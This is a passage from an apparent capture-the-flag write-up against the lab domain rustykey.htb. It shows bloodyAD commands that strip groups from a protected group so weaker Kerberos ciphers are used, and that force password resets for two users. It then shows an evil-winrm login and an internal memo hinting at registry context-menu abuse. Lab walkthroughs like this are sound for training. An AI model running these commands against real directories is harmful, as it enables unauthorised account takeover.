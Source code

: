 
Somewhere I read that kerberos keys will be generated based on the configured encryption cipher defined at the time of the password set. So to this end, I want to remove the user from the protected groups BEFORE I reset the password so I can guarantee somewhat that a lower-level cipher is used that I might have access to since the defaults, again, don't seem to work for me.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k remove groupMember "Protected Objects" 'Support'
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k remove groupMember "Protected Objects" 'IT'
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password ee.reed Password1234!
```

    [-] Support removed from Protected Objects
    [-] IT removed from Protected Objects
    [+] Password changed successfully!
    [+] Password changed successfully!


Now we can log in.

```sh
KRB5CCNAME=./bb.morgan.ccache evil-winrm -i dc.rustykey.htb --realm=RUSTYKEY.HTB
```

## Foothold

```sh
*Evil-WinRM* PS C:\Windows\Temp> ls ~/Desktop


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         7/6/2025  10:32 PM             34 user.txt
```

Along with the flag on Desktop, we see this memo from bb.morgan. It explicitly references "Context Menu Actions" and "extended access has been granted" for "registry-level adjustments". Also it mentions that "This is to streamline... reported BY Finance and IT." which implies that `Support` is the group that will have the permissions to help these other groups. So ee.reed will be our target. In any windows system, we can modify the right-click menus and explorer.exe behaviors by tweaking some settings in the registry, so this is going to be the focus of our attention for several days.
```
        Internal Memo
        From: bb.morgan@rustykey.htb
        To: support-team@rustykey.htb
        Subject: Support Group - Archiving Tool Access
        Date: Mon, 10 Mar 2025 14:35:18 +0100
        Hey team,
        As part of the new Support utilities rollout, extended access has been temporarily granted to allow
        testing and troubleshooting of file archiving features across shared workstations.
        This is mainly to help streamline ticket resolution related to extraction/compression issues reported
        by the Finance and IT teams. Some newer systems handle context menu actions differently, so
        registry-level adjustments are expected during this phase.
        A few notes:
        - Please avoid making unrelated changes to system components while this access is active.
```